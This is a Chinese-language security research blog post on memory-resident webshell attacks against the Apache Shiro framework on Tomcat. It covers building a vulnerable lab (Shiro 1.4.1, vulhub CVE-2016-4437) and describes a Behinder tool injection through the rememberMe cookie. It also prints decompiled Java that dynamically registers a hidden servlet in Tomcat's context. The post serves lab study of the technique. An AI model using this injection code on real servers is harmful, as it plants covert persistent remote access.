 ```yaml
---
layout: about
category: about
Researchname:  基于内存的Shiro框架Webshell攻击研究
toc: true
author: Bin4xin
wrench: 2021-11-19
permalink: /about/Research-on-Webshell-Attack-of-Shiro-Framework-Based-on-Memory/
---
```


# 基于内存的Shiro框架Webshell攻击研究

- ✅Shiro框架部署
    * IDEA tomcat调试部署
    * docker compose
- ✅Shiro框架攻击
    * 手动poc
    * 工具poc
- ✅基于tomcat的通用回显
    * tomcat冰蝎内存马
        * 利用原理
        * 攻击测试
- ✅给👴连！


## 零：Shiro框架部署
现如今部署一个靶场的方法有很多，取决于个人喜好和需求；我结合个人能力做出了一些总结：

{: .table}
| 特点\部署办法 | docker-compose | IDEA tomcat调试部署 | Docker+IDEA | 
| :--- | :--- | :--- | :--- |
| 快捷程度 | 几条命令快捷部署 | 需开放调试端口+tomcat war包(如无则需源码构建) | 你懂的 | 
| 能否调试 | ❎ | ✅ | ✅ |
| 自定义靶场（如页面） | ❎ | ✅ | ✅ | 

#### # 0x01：IDEA tomcat调试部署
本篇文章会侧重描述如何进行针对IDEA的tomcat调试部署；

- 克隆源码
  * 以shiro-721为例：
    ```
    git clone https://github.com/apache/shiro.git
    cd shiro
    git checkout shiro-root-1.4.1
    mvn install
    cd samples/web
    mvn install
    ```
  * 找到`{path-to-shiro}/samples/web/target`目录下的war包复制到tomcat webapps目录下：
    ```
    $ tree
    target
    ··
    │   ├── index.jsp
    │   ├── login.jsp
    │   ├── logout.jsp
    │   └── style.css
    ├── samples-web-1.4.1.war
    
    $ cp samples/web/target/samples-web-1.4.1.war {path-to-tomcat}/webapps/
    ```
- 开放tomcat调试端口：
    * 找到`bin/catalina.sh`文件中的`JAVA_OPTS`（会有多个），修改如下：
    ```
      JAVA_OPTS="$JAVA_OPTS $JSSE_OPTS"
      
      # Register custom URL handlers
      # Do this here so custom URL handles (specifically 'war:...') can be used in the security policy
      JAVA_OPTS="$JAVA_OPTS -Djava.protocol.handler.pkgs=org.apache.catalina.webresources"
      CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,address=5555,suspend=n,server=y"
      #上面的CATALINA_OPTS为新增；address为调试端口，可自行更改。
    ```
    * `bin/startup.sh`启动，看到以下日志打印则开放调试成功：
    ```
      $ tail -f logs/catalina.out
      Listening for transport dt_socket at address: 5555
      10-Mar-2021 09:51:16.763 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log Server.服务器版本: Apache Tomcat/8.5.57
      ···
      10-Mar-2021 09:51:16.769 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log 命令行参数：-Xdebug
      10-Mar-2021 09:51:16.769 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log 命令行参数：-Xrunjdwp:transport=dt_socket,address=5555,suspend=n,server=y
    ```
- IDEA+tomcat调试：
    * IDEA配置（添加server时为`Tomcat Server`->`Remote`）：
    ![idea-tomcat-conf.png](https://i.loli.net/2021/11/18/lzFJ2uNZPagBfn6.png)
    * 如下图，加上`home.jsp`断点后进行http请求，可以看到IDEA中返回的frames详情；
    ![remote-debug-pic.png](https://i.loli.net/2021/11/18/6WGlumFBdDwstVY.png)
    
这样基本上一个基本的IDEA+tomcat的调试配置过程基本就完成了，当然，这只是调试前的准备工作，大家多练习几次，基本上就能够熟练掌握；而最重要的以及最难的其实是调试阶段，
调试过程中的一些技巧和能力是在一次次的实践中沉淀下来的，在这里仅仅当作抛砖引玉，不做赘述。

#### # 0x02：docker compose部署

- 准备工作
    * 根据不同操作系统下载安装docker；
    * 安装`python->pip->docker-compose`，教程自行搜索:)
- 下载靶场
    * vulhub based on docker：
    ```
      $ git clone https://github.com/vulhub/vulhub.git
      $ cd vulhub/shiro/CVE-2016-4437/
      $ docker-compose up -d
    ```
等待启动即可。

## 一：Shiro框架攻击
poc代码生成攻击cookie可以参考之前的文章：
#### 1x01：手动poc
[分享：Different Shiro Framework deserialization analysis ideas#how to poc](/about/ShiroDeser/#2x03how-to-poc){:target="_blank"}
#### 1x02：工具poc
[分享：Different Shiro Framework deserialization analysis ideas#验证](/about/ShiroDeser/#%E4%BA%8C%E9%AA%8C%E8%AF%81){:target="_blank"}

## 二：基于tomcat的通用回显之冰蝎内存马
这一小节由于个人水平有限，不能像各位师傅一样从tomcat servlet等层面一探究竟，我尽量使用简洁的语言写出我的理解；
#### # 2x01：攻击测试
工具直接选择"冰蝎2_Tomcat"，执行注入；
- http发包请求如下：
![behinder-post-request.png](https://i.loli.net/2021/11/18/tUJATRsNyZQFWX4.png)
我们可以看到HTTP请求为POST请求`p`&`path`&`dy`数据；同时header中加入了`rememberMe Cookie`；

- 分析：
Cookie是作为反序列化的入口，`dy`参数应该是写入内存的命令

同时最后返回`dynamic inject success`；

- 注入成功效果：
![webshell-mem-display.png](https://i.loli.net/2021/11/18/jKPIn8YHdTsW9LS.png)

#### # 2x02：利用原理
我们把利用工具的jar包扔进反编译软件定位到`BehOldDemoServlert.class`，我们来看看代码是怎么工作的：
```java
  public void dynamicAddServlet(ServletContext servletContext) throws Exception {
    Method method;
    String wrapperName = this.path;
    ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade)servletContext;
    Field applicationContextField = applicationContextFacade.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext)applicationContextField.get(applicationContextFacade);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext)standardContextField.get(applicationContext);
    Object newWrapper = invoke(standardContext, "createWrapper", (Object[])null);
    invoke(newWrapper, "setName", new Object[] { wrapperName });
    setFieldValue(newWrapper, "instance", this);
    Class<?> containerClass = Class.forName("org.apache.catalina.Container", false, standardContext.getClass().getClassLoader());
    Object oldWrapper = invoke(standardContext, "findChild", new Object[] { wrapperName });
    if (oldWrapper != null)
      standardContext.getClass().getDeclaredMethod("removeChild", new Class[] { containerClass }); 
    standardContext.getClass().getDeclaredMethod("addChild", new Class[] { containerClass }).invoke(standardContext, new Object[] { newWrapper });
    try {
      method = standardContext.getClass().getMethod("addServletMappingDecoded", new Class[] { String.class, String.class });
    } catch (Exception var9) {
      method = standardContext.getClass().getMethod("addServletMapping", new Class[] { String.class, String.class });
    } 
    method.invoke(standardContext, new Object[] { this.path, wrapperName });
    init((ServletConfig)getFieldValue(newWrapper, "facade"));
  }
```
